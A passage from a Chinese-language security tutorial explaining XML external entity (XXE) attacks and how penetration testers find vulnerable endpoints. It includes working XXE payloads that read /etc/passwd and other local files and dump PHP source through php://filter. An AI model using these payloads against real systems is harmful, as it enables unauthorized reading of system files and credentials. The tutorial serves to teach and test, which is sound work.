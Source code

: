 **4. 引用公共实体**

```
<!ENTITY 实体名称 PUBLIC "public_ID" "URI">
```

### 0x02 什么是XML外部实体攻击?

有了XML实体，关键字’SYSTEM’会令XML解析器从URI中读取内容，并允许它在XML文档中被替换。因此，攻击者可以通过实体将他自定义的值发送给应用程序，然后让应用程序去呈现。 简单来说，攻击者强制XML解析器去访问攻击者指定的资源内容(可能是系统上本地文件亦或是远程系统上的文件)。比如，下面的代码将获取系统上folder/file的内容并呈献给用户。

```
Code1：

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE a [<!ENTITY passwd SYSTEM "file:///etc/passwd">]>
<foo>
        <value>&passwd;</value>
</foo>
```

```
Code2：

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE b [<!ENTITY entityex SYSTEM "file:///folder/file">]>
<foo>
        <value>&entityex;</value>
</foo>
```

```
Code3：

<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=index.php" >
]>
<root>
<name>&xxe;</name>
</root>
```

以Code1代码为例，XML外部实体 ‘passwd’ 被赋予的值为：file:///etc/passwd。
在解析XML文档的过程中，实体’passwd’的值会被替换为URI(file:///etc/passwd)内容值(也就是passwd文件的内容)。
关键字’SYSTEM’会告诉XML解析器，’passwd’实体的值将从其后的URI中读取。

### 0x03 怎么甄别一个XML实体攻击漏洞?

XXE漏洞主要针对web服务危险的引用的外部实体并且未对外部实体进行敏感字符的过滤，从而可以造成命令执行，目录遍历等。

最直接的回答就是： 甄别那些接受XML作为输入内容的端点。
但是有时候，这些端点可能并不是那么明显(比如，一些仅使用JSON去访问服务的客户端)。
在这种情况下，渗透测试人员就必须尝试不同的测试方式，比如修改HTTP的请求方法，修改Content-Type头部字段等等方法，然后看看应用程序的响应，看看程序是否解析了发送的内容，如果解析了，那么则可能有XXE攻击漏洞。
